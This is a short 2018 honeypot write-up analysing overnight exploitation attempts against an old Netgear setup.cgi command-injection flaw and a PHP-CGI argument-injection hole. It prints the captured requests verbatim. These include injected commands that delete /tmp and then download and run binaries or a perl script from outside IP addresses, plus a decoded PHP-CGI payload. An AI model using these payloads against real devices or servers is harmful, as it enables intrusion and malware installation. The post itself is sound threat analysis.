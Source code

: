 ```yaml
---
title: "Exploitation of an Old Netgear Bug, Popular Again"
#author: "Author Name"
description: "Description of some overnight attacks exploiting a Netgear vulnerability with widely-distributed exploit, and yet the attacker is still having decent success in the wild."
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-07-09T00:00:00-00:00
draft: false
---
```


Just a ton of what Glastopf reports as remote file inclusion attacks happened overnight, all of one similar type.  Almost exactly 700 exploitation attempts using the vulnerability exploited [here](https://www.exploit-db.com/exploits/43055/).  Requests that would redirect a Netgear device back to one of 3 different download servers came from 37 unique IP addresses, suggesting a good amount of success exploiting this old vulnerability.

```
/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+hxxp://80.211.91.217/mips+-O+/tmp/mips;sh+mips&curpath=/&currentsetting.htm=1
```

```
/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+hxxp://46.243.189.101/gang+-O+/tmp/gang;sh+gang&curpath=/&currentsetting.htm=1
```

```
/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+hxxp://213.183.53.120/netgear+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1
```

None of those download points are returning files at this time, unfortunately.

Separately, the server received a few POST requests attempting to directly execute PHP directly.

```
POST //cgi-bin/php?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%2D%64+%64%69%73%61%62%6C%65%5F%66%75%6E%63%74%69%6F%6E%73%3D%22%22+%2D%64+%6F%70%65%6E%5F%62%61%73%65%64%69%72%3D%6E%6F%6E%65+%2D%64+%61%75%74%6F%5F%70%72%65%70%65%6E%64%5F%66%69%6C%65%3D%70%68%70%3A%2F%2F%69%6E%70%75%74+%2D%64+%63%67%69%2E%66%6F%72%63%65%5F%72%65%64%69%72%65%63%74%3D%30+%2D%64+%63%67%69%2E%72%65%64%69%72%65%63%74%5F%73%74%61%74%75%73%5F%65%6E%76%3D%30+%2D%64+%61%75%74%6F%5F%70%72%65%70%65%6E%64%5F%66%69%6C%65%3D%70%68%70%3A%2F%2F%69%6E%70%75%74+%2D%6E
```

This translates to:
```
//cgi-bin/php?-d allow_url_include=on -d safe_mode=off -d suhosin.simulation=on -d disable_functions="" -d open_basedir=none -d auto_prepend_file=php://input -d cgi.force_redirect=0 -d cgi.redirect_status_env=0 -d auto_prepend_file=php://input -n
```

The POST body was:
```php
<? system("cd /tmp ; wget -c -q  hxxp://139.199.211.175/data/data/msr;perl msr;rm -rf msr ; curl -O  hxxp://139.199.211.175/data/data/msr;perl msr;rm -rf msr; fetch  hxxp://139.199.211.175/data/data/msr;perl msr;rm -rf msr "); ?>
```

If someone had PHP installed or linked in cgi-bin, and a webserver configured to permit it to execute, this would have downloaded and executed a perl script, then erased its tracks.  The requesting URL was 139.219.100.104.  Both that and the download URL are on cloud service providers in China - TencentCloud and Microsoft (Microsoft's operated by "21Vianet").

Again, that download server isn't reachable at this point.
